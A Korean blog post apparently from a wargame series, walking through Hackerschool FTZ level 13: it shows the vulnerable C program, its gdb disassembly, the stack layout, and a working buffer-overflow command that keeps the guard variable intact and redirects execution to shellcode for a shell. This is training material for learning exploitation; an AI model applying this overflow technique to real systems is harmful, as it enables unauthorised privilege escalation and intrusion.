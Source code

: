 ```yaml
---
date: '2022-10-03'
before : '2022-10-02'
after : '2022-10-03'
title: '시스템 해킹(11) : 해커스쿨 FTZ 레벨 13'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

또 다시 나온 BOF 문제이다. 하지만 이번 문제는 아주 조금 더 어려운게, 중간에 long i라는 값을 끼워넣어서, 이 값이 변조되었을 경우는 프로그램의 실행을 거부하는 형식의, 아주 기초적인 방어를
하고 있다. 이런 경우에는 그냥 Dummy코드를 짤 때, 저 long i 변수의 정확한 위치를 파악해서 Dummy코드 사이 i값이 오는 위치에 i 값을 정확하게 넣어주면 된다. 바로 코드로 들어가보자.

### 1. Level 13

일단 hint를 확인해 보면 attackme의 소스코드가 다음과 같이 나온다. 

```
#include <stdlib.h>

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}
```

"들어가기 전에" 에서 설명했지만, 이번에는 i값이 위조되었는지를 확인하는 코드가 if 문에 작성되어있다. 따라서 우리의 더미 데이터에도 i의 본래 값이 들어가있어야 한다.


얼른 카피해서 test 파일을 만들고 gdb로 disassemble 해보자. disassemble 하니 다음과 같은 어셈블리 코드가 실행되었다는 것을 알 수 있다.

```
0x080483c8 <main+0>:    push   ebp
0x080483c9 <main+1>:    mov    ebp,esp
0x080483cb <main+3>:    sub    esp,0x418
0x080483d1 <main+9>:    and    esp,0xfffffff0
0x080483d4 <main+12>:   mov    eax,0x0
0x080483d9 <main+17>:   sub    esp,eax
0x080483db <main+19>:   mov    DWORD PTR [ebp-12],0x1234567
0x080483e2 <main+26>:   sub    esp,0x8
0x080483e5 <main+29>:   push   0xc16
0x080483ea <main+34>:   push   0xc16
0x080483ef <main+39>:   call   0x80482e8 <setreuid>
0x080483f4 <main+44>:   add    esp,0x10
0x080483f7 <main+47>:   cmp    DWORD PTR [ebp+8],0x1
0x080483fb <main+51>:   jle    0x8048417 <main+79>
0x080483fd <main+53>:   sub    esp,0x8
0x08048400 <main+56>:   mov    eax,DWORD PTR [ebp+12]
0x08048403 <main+59>:   add    eax,0x4
0x08048406 <main+62>:   push   DWORD PTR [eax]
0x08048408 <main+64>:   lea    eax,[ebp-1048]
0x0804840e <main+70>:   push   eax
0x0804840f <main+71>:   call   0x8048308 <strcpy>
0x08048414 <main+76>:   add    esp,0x10
```
확인해 보니 우리의 1024크기의 배열은 ebp-1048번째 위치에 생성되었고, i의 값은 ebp-12의 위치에 생성되었다. 이를 이용해 대략적인 레지스터의 스택을 파악해볼 수 있다. 다음의 그림을 그려보았다.

![register_outlook](../contentImages/Level13.png)


쉘코드를 짜고, 주소를 확인해보니 다음과 같다 :
```
./getenv => 0xbffffc1a => \x1a\xfc\xff\xbf // 원래 주소를 little endian으로 변환했다.
```
환경변수의 생성과 주소 파악하는법에 대해 모른다면 다음의 글을 참조하자! : [FTZ Level 12](<https://hosahn.github.io/221002/>)


이제 필요한 도구가 모두 모였다. attackme 함수를 실행하고, argv로 다음과 같은 문장을 넘겨주자.

```
 ./attackme `python -c 'print "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\x1a\xfc\xff\xbf"'`
```
설명하자면 1036개의 NOP 더미를 넘기고, ebp-8시점에서 i의 주소값을 정확히 정의했으며, 그 후에 또 12개의 NOP 더미를 넘기고 나서 shell코드의 주소를 넘겨주었다.


이해가 가지 않는다면 위의 그림을 다시한번 확인해보자. 실행시키니 shell을 얻을 수 있었다. my-pass로 비밀번호를 확인하였다.


비밀번호 : what the n(여러분들이 아는 그 후드의 단어..) want? (FTZ가 미친듯 하다. 내 외국인 친구들도 보는 블로그라 단어를 쓰진 않겠다..) 

---
## Source

- 해커스쿨 FTZ
- Me!
